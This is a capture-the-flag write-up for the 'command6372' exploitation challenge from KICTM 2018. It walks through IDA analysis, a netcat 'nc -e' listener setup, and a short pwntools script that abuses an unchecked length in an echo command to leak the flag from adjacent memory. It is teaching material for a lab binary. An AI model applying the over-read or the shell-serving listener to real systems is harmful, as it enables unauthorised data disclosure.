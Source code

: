 ## command6372

**Category:** Exploit

**Points:** didn't remember

**Solves:** -

**Description:** 

### Write-up

The server listen at host:port (which I don't remember), and we're given one ELF x86 file named `command6372`.

## Setup enviroment

To emulate what the server behaviors, we're going to let the file listen to any port locally, which can be achieved as follow:

If you're using OpenBSD's netcat (`openbsd-netcat` in Arch package), then do as follow:

```bash
$ rm -f /tmp/f; mkfifo /tmp/f
$ while true; do cat /tmp/f | ./command6372 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f; done
```

Or else you're using traditional netcat (`gnu-netcat` in Arch package), then do as follow:

```bash
$ while true; do nc -lvp9999 -e./command6372; done
```

## Analyzing

First step is to check the ELF using `checksec`, which can be accomplished using `pwntools's checksec`.

```bash
$ pwn checksec command6372 
[*] '/home/shahril/git/KICTM-2018-CTF-Writeup/command6372/command6372'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So, the enabled protections are `NX` bit and position-independent-executable (PIE). Well, no worries, let's try to analyze the executable by using disassembler.

Opening the file with IDA (who doesn't use IDA for CTF anyway?) and trying to F5 the `main` function, below appears:

![image](pics/1.png)

O, why....

Looking at this problem online [#1](https://reverseengineering.stackexchange.com/questions/15473/why-is-ida-call-analysis-failing) and [#2](https://www.hex-rays.com/products/decompiler/manual/failures.shtml#11), we can notice that IDA has hard time figuring out the right function signature in order to decompile the code.

To speed up things in CTF, code decompilation is important to quickly understand what the code does. So in order to fix this problem, we must look at the disassembly and deduce the correct parameters for the function.

```assembly
lea     eax, (aKictm2018Comma - 3000h)[esi] ; "KICTM2018\nCommand: "
push    eax
mov     eax, ds:(_ZSt4cout_ptr - 3000h)[esi]
push    eax
mov     ebx, esi
call    __ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc ; std::operator<<<std::char_traits<char>>(std::basic_ostream<char,std::char_traits<char>> &,char const*)
```

We have 2 `push`es and 1 `call` operation. So we're expecting this function to accept two parameters.

1) `(aKictm2018Comma - 3000h)[esi]` points to `"KICTM2018\nCommand: "`
2) while `ds:(_ZSt4cout_ptr - 3000h)[esi]` points to `cout_ptr`. You can imagine this as `stdin`

Looking at #1 reference above, it says

`Note that hexrays doesn't accept the template arguments <char> and namespace specifier std:: in a function prototype. Since changing the prototype does not rename the function you can replace the function name with any name, as long as ida considers it valid.`

So, we need to change the function's type to something else, but is still readable for us to read.

![image](pics/2.gif)

Yeayyy!

## Reading Pseudo-code

![image](pics/3.png)

Take first input, and check if same as `0xF00DF00D`. If this checking failed, then print `Unknown command`.

![image](pics/4.png)

Next, the program takes input from user as string. This can be treated as numeric input.
Further checking is done to check if more than 0x400, then overwrite with 0x400. This is to prevent buffer-overflow.

Next `getline` takes user-input as string, this input is considered as our command, which have two `if-else if`, which have `read` and `echo` command.

## `read` command

![image](pics/5.png)

Copy next string after `read\x00` into `v13`. Then a loop is done to check for any dot-character, if exist then replace with 0x0.

This string next will be opened by `basic_ifstream` and its content will then be read and displayed to `stdout`.

## `echo` command

![image](pics/6.png)

A simple content displaying is done by using `write` function. So its argument is:

`std::ostream::write(&std::cout, &aKuehtiowWasHer[5], *v12 - 5)`.

1) std::cout = where we will display our content
2) &aKuehtiowWasHer[5] = where our string pointer located
3) *v12 - 5 = how many bytes to display

## obtain the flag

For `read` command, we can do arbitrary read from server files. But the problematic case is that any dot-char will be replaced with 0x0. For example, if we have `flag.txt`, then it will be `flag\x00txt`.

But, the description of the challenge (if I remember correctly) no mention about any `flag.txt` that we need to retrieve from server.

Looking at the string inside the ELF file, we can see that there is exist below string.

![image](pics/7.png)

We can assume that inside the server, the content of this string is different (containing real flag value).

How we can retrieve that?

As `read` reads file from file system (not from memory), so it is kinda hard for us to retrieve the value using `read`.

But, for `echo`, we can read from memory (as specified above). So, let us see where `&aKuehtiowWasHer[5]` is located.

![image](pics/8.png)

Oh, so the address of `aKuehtiowWasHer` is in `0x00003080`, and our flag value is at `0x00003480`. 

So, to read the flag value, we need to have arbitrary-length read into `aKuehtiowWasHer`, with how much value that we want to read.

By reading more throughly, we can notice this:

![image](pics/9.png)

So, we can control how much we want to read! 

## exploit script

```python
from pwn import *

r = remote('127.0.0.1', 9999)

r.send(p32(0xf00df00d))
r.send(p32(0x430))
r.send("echo")

r.interactive()
```

Output:

```bash
$ python2 exploit.py 
[+] Opening connection to 127.0.0.1 on port 9999: Done
[*] Switching to interactive mode
KICTM2018
Command: $ 
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00The flag is [get-this-in-a-remote-system]\x00\x00\x00\x00\x00\x00\x00$ 
[*] Got EOF while reading in interactive
```

Got it. :)